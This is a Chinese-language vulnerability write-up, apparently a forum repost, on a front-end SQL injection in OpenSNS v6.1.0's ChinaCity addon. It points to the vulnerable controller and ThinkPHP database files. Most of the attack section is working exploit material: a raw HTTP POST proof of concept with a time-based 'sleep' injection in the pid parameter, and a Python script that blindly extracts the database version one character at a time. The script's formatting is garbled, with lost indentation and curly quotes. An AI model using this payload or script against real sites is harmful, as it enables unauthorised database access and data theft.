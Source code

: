 # OpenSNS v6.1.0 前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3060](https://www.zhihuifly.com/t/topic/3060)

# OpenSNS v6.1.0 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

OpenSNS v6.1.0

## 三、复现过程

#### vul url

> [http://0-sec.org/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](https://www.t00ls.net/)

![image](img/f6bf18ec9f01f5ff92eddcb59607417c.png)

#### poc

```
POST /index.php?s=%2Fhome%2Faddons%2F_addons%2Fchina_city%2F_controller%2Fchina_city%2F_action%2Fgetcity.html HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 116
Accept: */*
Cookie: 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.95.131
Referer: http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/ucenter/config/index.html
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip `cid=0&pid%5B0%5D=%3D%28select%2Afrom%28select%2Bsleep%283%29union%2F%2A%2A%2Fselect%2B1%29a%29and+3+in+&pid%5B1%5D=3` 
```

![image](img/cc14f7e9c7e5ac958e39605b60b8de1e.png)

![image](img/eac1c8aad7325e3f412c8a75615ddebd.png)

Vulnerability file

Addons/ChinaCity/Controller/ChinaCityController.class.php:50

![image](img/a8ceeefabcb5159e1bee2da3da3c9fd8.png)

ThinkPHP/Library/Think/Db.class.php:772

![image](img/9b6762ec6bafd4373786f3dbe886e953.png)

![image](img/83ebac464da6dd7ba1f7c079eaa69c1c.png)

#### exp

```
import requests
from requests import exceptions

url=“[http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html](http://192.168.95.131/uploads_download_2019-07-16_5d2d5d4697d88/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html)”

header={‘X-Requested-With’:‘XMLHttpRequest’}

# proxies={‘http’:‘127.0.0.1:8080’}

flag=’’

for i in range(1,50):

for j in range(32,128):

try:

data={

‘cid’:0,

‘pid[0]’:"=(select if(ord(substr((select version()),{},1))={},sleep(10),0))AND 3 IN  ".format(i,j),

‘pid[1]’:3

}

# print data[‘pid[0]’]

r=requests.post(url,data=data,headers=header,timeout=5)

```
 except exceptions.Timeout :
        flag+=chr(j)
        print flag 
``` 
```

![image](img/81435cf8c246b2c712644c54b0646450.png)